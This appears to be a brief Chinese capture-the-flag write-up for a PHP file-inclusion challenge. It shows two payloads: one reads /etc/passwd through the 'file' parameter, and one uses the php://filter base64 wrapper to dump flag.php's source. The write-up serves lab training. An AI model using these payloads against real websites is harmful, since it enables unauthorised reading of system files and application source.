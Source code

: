 ![image-20250403165338607](./assets/image-20250403165338607.png)

提示传入file参数



尝试传入/etc/passwd

```
?file=/etc/passwd
```

![image-20250403165403006](./assets/image-20250403165403006.png)

提示flag在flag.php中



### 第一种

利用php://filter读取

```
?file=php://filter/convert.base64-encode/resource=flag.php
```

![image-20250403165514815](./assets/image-20250403165514815.png)

![image-20250403165531469](./assets/image-20250403165531469.png)





